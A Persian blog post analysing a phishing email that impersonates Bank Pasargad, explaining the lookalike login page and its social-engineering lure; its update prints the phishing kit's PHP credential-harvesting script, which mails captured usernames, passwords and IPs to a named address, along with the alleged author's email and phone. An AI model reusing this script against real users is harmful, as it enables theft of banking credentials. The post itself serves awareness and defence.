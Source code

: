 ```yaml
---
id: 732
title: 'فیشینگ بانک پاسارگاد &#8211; پیدا کردن هکر'
date: 2015-07-08T10:07:47+00:00
author: امیر کریمی
layout: post
guid: http://www.dev-frame.com/?p=732
permalink: '/2015/07/%d9%81%db%8c%d8%b4%db%8c%d9%86%da%af-%d8%a8%d8%a7%d9%86%da%a9-%d9%be%d8%a7%d8%b3%d8%a7%d8%b1%da%af%d8%a7%d8%af/'
views:
  - "2882"
categories:
  - فناوری
  - متفرقه
tags:
  - Security
  - امنیت
---
```

یه ایمیل برام اومد که با یه روش قدیمی و شناخته شده سعی در هک کردن اکانت حساب بانکی پاسارگادم داره؛ فیشینگ (Phishing).

<a href="/wp-content/uploads/2015/07/pishing_pasargad.jpeg" target="_blank"><img class="aligncenter wp-image-733 size-medium" src="/wp-content/uploads/2015/07/pishing_pasargad-300x148.jpeg" alt="pishing_pasargad" width="300" height="148" srcset="/wp-content/uploads/2015/07/pishing_pasargad-300x148.jpeg 300w, /wp-content/uploads/2015/07/pishing_pasargad.jpeg 728w" sizes="(max-width: 300px) 100vw, 300px" /></a>

همنوطور که تو تصویر بالا قابل مشاهده هست لینک داخل ایمیل در ظاهر دقیقا لینک دسترسی به اینترنت بانک پاسارگاد هست ولی در باطن لینک شده به یه سایت دیگه که دقیقا عین سایت اصلی ساخته شده فقط هرچی توی فیلدهای این صفحه بنویسیم (شامل نام کاربری و کلمه عبور) رو برای هکر میفرسته و بعد هم صفحه اصلی بانک رو نشون میده تا یه وقت به چیزی شک نکنیم و فکر کنیم که احتمالا خودمون فیلدی رو اشتباه وارد کردیم. با یه مهندسی اجتماعی ساده (اینکه کسی ۶ میلیون تومن پول ریخته به حسابمون) هم سعی کرده تحریکمون کنه که حتما لاگین کنیم.

<a href="/wp-content/uploads/2015/07/pishing_pasargad_2.jpeg" target="_blank"><img class="aligncenter size-medium wp-image-734" src="/wp-content/uploads/2015/07/pishing_pasargad_2-300x232.jpeg" alt="pishing_pasargad_2" width="300" height="232" srcset="/wp-content/uploads/2015/07/pishing_pasargad_2-300x232.jpeg 300w, /wp-content/uploads/2015/07/pishing_pasargad_2.jpeg 674w" sizes="(max-width: 300px) 100vw, 300px" /></a>

جالب اینجاست که این هک برای انگلیسی زبان‌ها ساخته شده و درگاه پرداخت اصلی هم به زبان انگلیسی هست.

خوشبختانه هم خود Thunderbird تشخیص داد که این ایمیل جعلی هست و هم وقتی روی لینک کلیک میکنیم یه پیغام میده که ظاهر این لینک با آدرسی که بهش اشاره کرده نمی‌خونه ولی اگر هکر یه کم حرفه‌ای‌تر بود میتونست کاری کنه که ایمیل اسپم نشه و این هشدار هم داده نشه. به هر حال من شک ندارم حداقل ۸۰ درصد مردم متوجه هیچ کدوم از این مسائل نمی‌شن و نام کاربری و کلمه عبورشون رو برای هکر میفرستن! متاسفانه، به همین راحتی.

### به روز رسانی

خوشبختانه مثل اینکه این هکر ما یه مقداری ناشی هست. اگر به مسیر روت سایت فیشینگ برید میبیند که Directory Listing سرور رو نبسته و از اون بدتر نسخه zip شده سایت رو هم گذاشته روی سرور این یعنی سورس این صفحه در دسترس هست. کد PHP این صفحه فیشینگ به شکل زیره:

<pre class="brush: php; title: ; notranslate" title="">&lt;?php  
$ip = getenv("REMOTE_ADDR");  

$message .= "--------------INFORMATION-------------------\n"; 
$message .= "User: ".$_POST['username']."\n"; 
$message .= "Pass: ".$_POST['password']."\n";
$message .= "IP: ".$ip."\n"; 
$message .= "---------------Created By Kizito +6289524438862--------------------\n"; 

$send = "kizito.bank@gmail.com"; 
$subject = "Pasargad"; 
$headers = "From:  iben.bpi.ir"; 
mail($send,$subject,$message,$headers); 

header("Location: https://iben.bpi.ir/");  
?&gt; 
</pre>

همونطور که مشخصه ایمیلی که اطلاعات قربانی‌ها براش ارسال میشه kizito.bank@gmail.com هست و البته برنامه‌نویس یه تلفن هم گذاشته (که مال اندونزی هست)! یه سناریو میتونه این باشه که یه آدم غیر فنی سفارش این هک رو به یه فریلنسر داده و ازش تحویل گرفته ولی موقعه بارگذاری چون مسائل امنیتی رو نمی‌دونسته اینطوری کدها رو در معرض دید عموم قرارداده. این برنامه‌نویس کلاه سیاه هم تلفنش رو گذاشته بوده واسه تبلیغ تا در انتهای هر ایمیل که برای کارفرما ارسال میشه در پایین نام کاربری و کلمه عبور قربانی‌ها بیاد. به قول معروف امضاء خودش رو اونجا گذاشته.
